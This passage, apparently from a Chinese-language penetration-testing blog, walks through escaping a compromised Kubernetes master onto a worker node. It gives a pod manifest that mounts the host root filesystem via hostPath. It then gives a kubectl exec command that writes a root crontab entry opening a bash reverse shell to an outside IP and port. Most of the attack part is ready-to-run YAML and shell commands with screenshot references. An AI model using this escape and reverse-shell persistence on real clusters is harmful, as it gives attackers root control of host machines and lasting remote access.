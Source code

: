 <div align=center><img width="700" src="/img/image-20231015192029551.png" div align=center/></div></br>

拿到 master 机器权限

这个时候我们可以下发任务，进行逃逸拿到真实机器权限

```yaml
cat > x.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: node2
spec:
  nodeName: node2
  containers:
  - image: nginx
    name: test-container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
EOF
```

> nodeName 节点名字
>
> kubectl get node -o wide 查看node信息
>
> kubectl create -f x.yaml 下发任务
>
> kubectl get pods -o wide 查看node信息
>
> kubectl delete -f x.yaml 删除pod

<div align=center><img width="1000" src="/img/image-20231015192230299.png" div align=center/></div></br>

<div align=center><img width="700" src="/img/image-20231015192953175.png" div align=center/></div></br>

<div align=center><img width="900" src="/img/image-20231015193018428.png" div align=center/></div></br>

下发成功，开始挂载逃逸

```shell
kubectl exec node2 -- bash -c "echo -e '* * * * * root bash -i >& /dev/tcp/192.168.86.218/6612 0>&1\\n' >> /mnt/etc/crontab"
kubectl exec node1 -- bash -c "cat /mnt/etc/crontab"
```

> 记得修改路径 /mnt/etc/crontab

<div align=center><img width="700" src="/img/image-20231015193328251.png" div align=center/></div></br>
